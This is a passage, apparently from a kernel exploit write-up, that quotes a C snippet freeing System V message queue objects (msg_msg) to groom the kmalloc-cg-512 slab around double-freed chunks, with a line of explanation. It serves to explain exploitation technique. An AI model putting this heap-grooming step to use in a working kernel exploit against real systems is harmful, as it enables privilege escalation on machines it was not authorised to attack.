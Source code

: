 - [exploit/extra-refined/exploit.c#L771](../exploit/extra-refined/exploit.c#L771)
```c
// make some room for double freed chunks
for (size_t i = 10; i < 12; i++)
{
	memset(msg_buf, 0, sizeof(msg_buf));
	ret = msgrcv(msgqids2[i], msg, sizeof(msg_buf), 2, IPC_NOWAIT);
	if (ret < 0)
		err(1, "msgrcv");
}
```
To locate the double-freed chunks in the middle of `struct msg_msg` objects, we freed the two `struct msg_msg` from the `kmalloc-cg-512` slabs. We choose the arbitrary indices 10 and 11 for this.
